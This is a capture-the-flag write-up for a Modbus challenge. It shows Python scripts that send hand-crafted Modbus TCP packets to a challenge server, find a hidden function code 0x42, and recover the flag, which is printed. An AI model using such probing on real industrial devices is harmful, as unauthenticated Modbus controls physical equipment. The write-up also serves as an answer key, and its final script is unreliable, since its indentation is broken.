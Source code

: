 # wargame2025-modbus_scolaire
This is my writeup for the LeHack Wargame 2025 challenge Modbus_Scolaire.

## Challenge description
Un unprotected modbus server is freely responding on the network. Can you break it? Flag format : LeHACK{the_flag}

Basic modbus packets will look like this :

    \x00\x01 Transaction ID
    \x00\x00 Protocol ID
    \x00\x0A Length: 10 bytes after this field
    \x01 Unit ID

-> Function code : 1 byte

-> Payload : the rest

modbus_scolaire.wargame.rocks:1502

Direct bruteforce is not recommended : the amount of combinations is above 10^{12} and we close at 8:00 AM

## Google what a function code does
Modbus function codes are 8 bit long numerical identifiers that dictate the specific operations performed by a Modbus device. These codes instruct the slave device on actions like reading or writing data to coils or registers. They are part of the Protocol Data Unit (PDU) within a Modbus message. 
Modbus has these common function codes:
| Function Code | Description             |
|---------------|-------------------------|
| 0x01          | Read Coils              |
| 0x02          | Read Discrete Inputs    |
| 0x03          | Read Holding Registers  |
| 0x04          | Read Input Registers    |
| 0x05          | Write Single Coil       |
| 0x06          | Write Single Register   |
| 0x0F          | Write Multiple Coils    |

## Communicate with modbus server

Start by initiating normal contact

  ```python
import socket
  
HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

packet = (
    b'\x00\x01'  # Transaction ID
    b'\x00\x00'  # Protocol ID
    b'\x00\x0A'  # Length (10 bytes after this)
    b'\x01'      # Unit ID
    b'\x01'      # Function Code: Read Coils
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(packet)
    data = s.recv(1024)
    print("Received:", data)
```
Response:
`Ack`
--> Cool, modbus notices us.
Loop through all of the function codes and realise this is not the way, everything only gives back `Ack`. 
Try out funny numbers as function code like `\x69` or `\x42`.
`\x42` actually changes the response to `func42............`!
Progress!

## Prepare different payloads
So we know the rest of the payload is 8 bits long, let's prepare a list of payloads!
  ```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

test_payloads = [
    b'\x00\x00\x00\x01\x00\x00\x00\x00',  # read 1 register at 0
    b'\x00\x00\x00\x08\x00\x00\x00\x00',  # read 8 registers at 0
    b'\x13\x37\x00\x01\x00\x00\x00\x00',  # leet + read 1
    b'\xDE\xAD\xBE\xEF\x00\x00\x00\x01',  # hex magic

]

for payload in test_payloads:
    packet = (
        b'\x00\x01' +               # Transaction ID
        b'\x00\x00' +               # Protocol ID
        b'\x00\xFF' +               # Length (10 bytes after this field)
        b'\x01' +                   # Unit ID
        b'\x42' +                   # Function code 0x42
        payload                     # 8 bytes payload
    )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```

Responses
```shell

Sent payload: b'\x00\x00\x00\x01\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x00\x00\x00\x08\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x13\x37\x00\x01\x00\x00\x00\x00' | Received: b'func421955......\n'
Sent payload: b'\xde\xad\xbe\xef\x00\x00\x00\x01' | Received: b'func42......190239\n'
```
## Combine the working payloads to one
Try around different variations of payload until you're sure that the relevant parts are `\x13\x37\` and `\xBE\xEF`

## Final working file
```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

payload = b'\x13\x37\xBE\xEF\x01\x00\x00\x00'


  packet = (
      b'\x00\x01' +               # Transaction ID
      b'\x00\x00' +               # Protocol ID
      b'\x00\xFF' +               # Length (10 bytes after this field)
      b'\x01' +                   # Unit ID
      b'\x42' +                   # Function code 0x42
      payload                     # 8 bytes payload
  )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```
Get the flag `LeHACK{unsafe_modbus_packets_4_win}`
